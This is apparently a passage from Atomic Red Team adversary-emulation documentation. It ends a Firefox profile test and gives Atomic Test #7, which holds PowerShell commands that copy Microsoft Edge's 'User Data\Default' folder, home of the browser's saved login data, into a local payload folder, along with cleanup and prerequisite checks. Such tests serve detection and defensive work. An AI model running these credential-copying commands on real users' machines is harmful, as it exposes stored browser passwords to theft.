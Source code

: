 ```powershell
if (Test-Path "$env:APPDATA\Mozilla\Firefox\Profiles\") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$firefox="C:\Program Files\Mozilla Firefox\firefox.exe"}else {$firefox="C:\Program Files (x86)\Mozilla Firefox\firefox.exe"}
Start-Process $firefox -ArgumentList '-CreateProfile Atomic' -Wait
Start-Process $firefox -NoNewWindow
Start-Sleep -s 20
Stop-Process -Name firefox
```




<br/>
<br/>

## Atomic Test #7 - Simulating access to Windows Edge Login Data
Simulates an adversary accessing encrypted credentials from Edge web browser's login database.
more info in https://www.forensicfocus.com/articles/chromium-based-microsoft-edge-from-a-forensic-point-of-view/

**Supported Platforms:** Windows


**auto_generated_guid:** a6a5ec26-a2d1-4109-9d35-58b867689329






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default" -Destination "PathToAtomicsFolder\..\ExternalPayloads\Edge" -Force -Recurse
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Edge" -Force -ErrorAction Ignore -Recurse
```



#### Dependencies:  Run with `powershell`!
##### Description: Edge must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
"Installation is not implemented as Edge is a part of windows"
```
##### Description: Edge login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$edge="C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
Start-Process $edge 
```